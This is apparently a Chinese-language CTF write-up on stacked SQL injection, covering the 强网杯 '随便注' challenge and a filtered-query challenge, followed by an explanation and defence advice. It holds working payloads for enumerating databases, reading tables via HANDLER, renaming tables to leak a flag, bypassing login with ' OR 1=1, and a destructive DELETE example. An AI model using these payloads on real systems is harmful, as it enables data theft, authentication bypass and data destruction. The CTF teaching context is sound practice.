 强网杯随便注，禁用了preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

```
1';show databases--+
-1';show databases;#  让前面闭合，然后一起回显，注意有时后面要有;
1'and extractvalue(1,concat(0x7e,(database())))--+
1';show tables;--+

看字段
1'; show columns from `words`;--+
1'; show columns from `1919810931114514`;--+

直接读表字段的值
1'; handler
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

利用原有的回显，把flag表改名过去。
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#

```
>Handler语法:
handler语句，一行一行的浏览一个表中的数据
handler语句并不具备select语句的所有功能。
mysql专用的语句，并没有包含到SQL标准中。
HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。
1、HANDLER tbl_name OPEN
打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
2、HANDLER tbl_name READ FIRST
获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
3、HANDLER tbl_name CLOSE
关闭打开的句柄。
4、HANDLER tbl_name READ index_name = value
通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。

^
```
post中：
query=1;show databases;
query=1;show columns from Flag;#

猜测语句
select $_GET['query'] || flag from flag

payload：
query=*,1
或
query=1;set sql_mode=pipes_as_concat;select 1
```

堆叠注入（Stacked Injection）是一种 SQL 注入攻击技术，其中攻击者利用应用程序对用户输入的不安全处理，将多个 SQL 查询或命令堆叠在一起，以达到执行多个恶意操作的目的。

通常情况下，SQL 注入攻击是通过在应用程序接受用户输入的地方注入恶意的 SQL 代码来实现的。但在某些情况下，应用程序可能会接受并处理多个用户输入，并将它们拼接成一个或多个 SQL 查询或命令。攻击者可以利用这种情况来构造堆叠注入攻击。



堆叠注入在mysql数据库中并不常见，常见于mssql数据库，mssql数据库是默认堆叠注入的。
```
如用户输入：1; DELETE FROM products
服务器端生成的sql语句为：Select * from products where productid=1;DELETE FROM products
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。
危害巨大。
可以使用盲注，布尔，验证是否存在堆叠注入。
```
<https://kitescat.github.io/2023/05/06/SQL%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5/index.html>

## **场景**

例如，考虑以下伪代码：

```
username = getRequestParameter("username")
password = getRequestParameter("password")

sql_query = "SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'"
executeQuery(sql_query)
```

在这个例子中，应用程序接受了用户名和密码作为输入，并将它们拼接成一个 SQL 查询。如果应用程序没有对输入进行适当的验证和过滤，攻击者可以构造特定的输入，以便在用户名和密码字段中注入额外的 SQL 代码，从而实现堆叠注入攻击。

例如，攻击者可以构造以下输入：

```
username: ' OR 1=1; --
password: anything
```

这样，拼接后的 SQL 查询将变成：

```
SELECT * FROM users WHERE username='' OR 1=1; --' AND password='anything'
```

这将导致应用程序忽略密码验证，直接返回所有用户的记录，因为 `OR 1=1` 的条件始终为真。通过堆叠注入，攻击者可以绕过认证并执行恶意操作，比如获取敏感信息或者修改数据库内容。

要防止堆叠注入攻击，开发人员应该采取一系列的安全措施，包括使用参数化查询、合适的输入验证、过滤和转义来防止 SQL 注入。此外，最好避免将多个用户输入直接拼接成 SQL 查询或命令，而是使用安全的编程实践来处理用户输入。

